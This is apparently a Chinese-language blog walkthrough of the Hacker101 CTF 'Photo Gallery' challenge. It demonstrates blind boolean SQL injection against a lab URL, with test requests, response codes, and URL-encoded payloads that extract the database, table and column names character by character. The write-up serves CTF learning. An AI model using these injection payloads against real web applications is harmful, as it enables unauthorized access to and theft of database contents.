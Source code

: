 ```yaml
---
title: hacker101-photo gallery
date: 2019-07-04 10:50:55
tags: 
category: walkthrough
---
```

无回显的 Boolean 型 SQL 注入
<!-- more -->
# 测试
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1 ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1' and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1" and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=1-- ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=2-- ==> 404
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=1 -- => 404
...
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=6 -- => 200

```

# 渗透
1. 找出当前表字段
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1%20%20order%20by%201%23 => 200

and order by 1 #

当前表只有一个字段
```
2. 找出数据库名
```
select ascii(substring((select database()),[0-9],1))=[ascii码];
```

3. 找出表名
```
select table_name from information_schema.tables where table_schema="blog" limit 0,1 ; # 第一张表
select table_name from information_schema.tables where table_schema="blog" limit 1,1 ; # 第二张表
```

4. 找出用户名和密码
```
select ascii(substring((select user()),[0-9],1))=[ascii码];
```

# walkthrough 
## 直接使用 burp 进行测试,其请求的 url 构造如下
```
%20and%20(select%20ascii(substring((select%20database()),1,1)))=11--
```
![photo1](/postimg/photo1-1.PNG)
![photo1](/postimg/photo1-2.PNG)
![photo1](/postimg/photo1-3.PNG)
![photo1](/postimg/photo1-4.PNG)
![photo1](/postimg/photo1-5.PNG)

第一步结果得出数据库名为 `level5`

## 得出当前表名，其 url 构造如下
```
%20and%20(select%20ascii(substring((select table_name from information_schema.tables where table_name="albums" limit 0,1),$_$,1)))=$_$ --
```

得出第一张的表名：albums

# 构造字段名

```
%20and%20(select%20ascii(substring((select column_name from information_schema.columns where table_schema="level5" limit 0,1),$_$,1)))=$_$ --
```

